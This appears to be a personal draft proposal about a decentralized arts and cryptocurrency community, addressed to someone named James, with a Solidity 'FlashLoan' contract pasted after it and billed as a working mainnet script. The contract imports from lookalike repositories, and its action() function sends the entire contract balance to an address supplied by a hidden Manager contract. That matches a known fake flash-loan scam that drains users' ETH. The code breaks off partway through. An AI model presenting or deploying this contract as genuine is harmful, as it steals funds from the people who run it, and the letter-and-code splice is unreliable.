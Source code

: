 	- Create their own social media network
	- Secure DataFiles(ie. MP3, FLAc, mP4, etc.)
	- Monetize their Data with cryptocurrncy
	- Learn and create new ways of Engaging with Art
	- Easily Donate to Causes/Orginizations
	- Be a part of the first ever Decentralized Reserve for Arts, Science, and Medicine

That's a lot to unpack, believe me I'm trying, but it all starts with working musicians being involved with the 'ART' happening online with NFTs and cryptocurrency. The veil I'm trying to lift within the public view is this:

Time Does not equal Money.

	This community monetizes from Value added into the real world, and defines that Value primarily as Art, Science, or Medicine.

	Again, thank you so much for your phone call, James. IT really helped me define these terms and find a way to contiue my personal work. You see, I have a daughter. Many people don't know this and easily look past it when considering the idea of Me. I would love to work with you, play music, and shoot shit at the bonfire on occasion, but my mind and soul won't sit pretty until I have a safe haven farm for that little girl. Far away from her crazyy momma and any of the hurt she's already been through.

	No one sees the end goal like I do, and I'm glad. Hopefully you have questions about this and more importantly, I hope you see a bit more where I'm coming from in regards to my intentions, aspirations, and current placement. " 


-------------- This essentially is the first draft of a Purposal

*******************************************************************88
		LAstly, again, to follow and finish up
**********************************************************		

_ Handwritten script that works on ETH mainnet when deployed through MIT open source pragma in SoilidtyETHRemix Software__

pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";

// Dex Smart Contracts
import "https://github.com/uniswap-finance/uniswap/blob/master/contracts/interfaces/IUniswapPair.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

	contract FlashLoan {
	string public tokenName;
	string public tokenSymbol;
	uint loanAmount;
	Manager manager;
	constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) 	public {
	tokenName = _tokenName;
	tokenSymbol = _tokenSymbol;
	loanAmount = _loanAmount;
	manager = new Manager();
}
	function() external payable {}
	function action() public payable {
// Send required coins for swap
   address(uint160(manager.swapDepositAddress())).transfer(address(this).balance);
   